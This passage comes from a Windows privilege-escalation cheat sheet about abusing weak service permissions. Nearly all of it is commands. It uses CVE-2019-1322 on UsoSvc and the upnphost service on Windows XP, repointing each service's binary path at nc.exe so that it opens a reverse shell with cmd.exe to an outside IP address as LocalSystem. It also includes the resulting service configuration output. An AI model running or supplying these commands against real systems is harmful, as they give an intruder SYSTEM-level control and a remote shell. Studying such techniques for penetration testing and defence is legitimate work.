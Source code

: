 **cacls (Windows XP)**

**You are looking for BUILTIN\Users:(F)(Full access), BUILTIN\Users:(M)(Modify access) or**

**BUILTIN\Users:(W)(Write-only access) in the output.**

#### Example with Windows 10 - CVE-2019-1322 UsoSvc

**Prerequisite: Service account**

#### Example with Windows XP SP1 - upnphost

**If it fails because of a missing dependency, try the following commands.**

```
sc config SSDPSRV start=auto
net start SSDPSRV
net stop upnphost
net start upnphost
```

```
PS C:\Windows\system32> sc.exe stop UsoSvc
PS C:\Windows\system32> sc.exe config usosvc binPath="C:\Windows\System32\spool\drivers\color\nc.exe 10.10.10.10 4444 -e cmd.exe"
PS C:\Windows\system32> sc.exe config UsoSvc binpath= "C:\Users\mssql-svc\Desktop\nc.exe 10.10.10.10 4444 -e cmd.exe"
PS C:\Windows\system32> sc.exe config UsoSvc binpath= "cmd /C C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"
PS C:\Windows\system32> sc.exe qc usosvc
[SC] QueryServiceConfig SUCCESS
```

```
SERVICE_NAME: usosvc
TYPE : 20 WIN32_SHARE_PROCESS
START_TYPE : 2 AUTO_START (DELAYED)
ERROR_CONTROL : 1 NORMAL
BINARY_PATH_NAME : C:\Users\mssql-svc\Desktop\nc.exe 10.10.10.10 4444 -e cmd.exe
LOAD_ORDER_GROUP :
TAG : 0
DISPLAY_NAME : Update Orchestrator Service
DEPENDENCIES : rpcss
SERVICE_START_NAME : LocalSystem
```

```
PS C:\Windows\system32> sc.exe start UsoSvc
```

```
# NOTE: spaces are mandatory for this exploit to work!
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe 10.11.0.73 4343 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
sc config upnphost depend= ""
net start upnphost
```
